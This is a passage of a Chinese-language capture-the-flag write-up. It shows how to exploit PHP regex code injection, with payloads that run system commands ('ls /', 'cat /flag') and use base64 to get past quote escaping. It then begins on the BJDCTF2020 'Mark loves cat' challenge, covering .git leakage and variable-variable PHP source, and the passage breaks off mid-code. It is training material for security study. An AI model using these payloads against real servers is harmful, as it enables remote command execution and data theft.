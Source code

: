   https://521-wf.com/archives/45.html

那么我们要传入一个匹配模式，另一个被替换字符串。

本来可以传入

```
?.*={${phpinfo()}}
```

但是GET方式传的字符串，.会被替换成_

还可以使用其他的元字符，比如说`\S` , `\D` 

payload:

```
?\S*={${system('ls /')}}
```

发现引号会被转义，这里我用的 chr 拼接 system 的参数,那就使用base解码函数或者 chr 等等函数转一下

```
?\S*={${system(base64_decode(bHMgLw))}}
# 注意base64编码后去掉 =    ls / 

?\S*={${system(base64_decode(Y2F0IC9mbGFn))}}
```

也可以直接利用题目的函数

```
?\S*={${getFlag()}}&cmd=system("cat /flag");
```



  

  

https://521-wf.com/archives/45.html

https://www.cnblogs.com/ysk123/p/9896850.html

https://www.php.net/manual/zh/language.variables.variable.php

https://jingyan.baidu.com/article/2fb0ba4081d40c00f3ec5f49.html



## [BJDCTF2020]Mark loves cat

.git   敏感信息泄露

githack 下载源文件，但是这里用了好几个下载的都下载不下来。。。。

index.php

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
```